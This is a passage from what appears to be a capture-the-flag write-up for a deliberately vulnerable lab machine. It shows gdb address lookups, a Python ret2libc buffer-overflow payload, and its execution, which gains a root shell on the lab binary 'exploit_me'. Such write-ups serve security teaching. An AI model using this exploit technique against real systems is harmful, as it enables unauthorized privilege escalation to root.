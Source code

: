 ```sh
(gdb) x/s 0xb7f8cc58
0xb7f8cc58:      "/bin/sh"
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
```

### Writing the exploit

```py
import struct

BIN_SH_ADDR = 0xb7f8cc58
SYSTEM_ADDR = 0xb7e6b060
PAYLOAD = "A" * 140 + struct.pack("<I", SYSTEM_ADDR) + "AAAA" + struct.pack("<I", BIN_SH_ADDR)
print PAYLOAD
```

### Executing the exploit

```sh
zaz@BornToSecHackMe:~$ ./exploit_me $(python -c 'import struct;BIN_SH_ADDR = 0xb7f8cc58;SYSTEM_ADDR = 0xb7e6b060;PAYLOAD = "A" * 140 + struct
.pack("<I", SYSTEM_ADDR) +"AAAA" + struct.pack("<I", BIN_SH_ADDR);print PAYLOAD')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`��AAAAX���
# 
# id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
# whoami
root
# 
```